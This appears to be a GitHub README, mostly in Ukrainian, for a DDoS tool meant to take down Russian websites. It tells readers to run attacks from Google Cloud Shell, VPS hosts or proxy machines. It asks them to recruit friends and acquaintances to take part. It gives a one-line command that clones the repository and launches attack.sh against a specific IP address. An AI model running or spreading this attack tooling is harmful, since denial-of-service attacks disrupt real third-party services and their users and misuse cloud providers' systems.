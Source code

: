 # For advanced users
***
**DDoS атака** йде з *серверів Google* завдяки [Google Shell](https://shell.cloud.google.com/?hl=en_US&fromcloudshell=true&show=terminal).  Якщо у вас є *VPS/VDS*, або комп'ютери з *proxy серверами*, то ви можете запустити атаку з них.

Також ви можете  *залучати своїх приятелів та знайомих* допомагати нам проводити DDoS атаки, завдяки цьому ми зможемо "покласти" більше російських сайтів.

##### Requirements
- python 3x
- shell (sh)
- inet connection
### How to use
```bash
git clone https://github.com/dxh-team/CDUW && cd CDUW && ./attack.sh -s 5.255.255.50
```
***
### More information
**[https://github.com/curated-intel/Ukraine-Cyber-Operations](https://github.com/curated-intel/Ukraine-Cyber-Operations)**
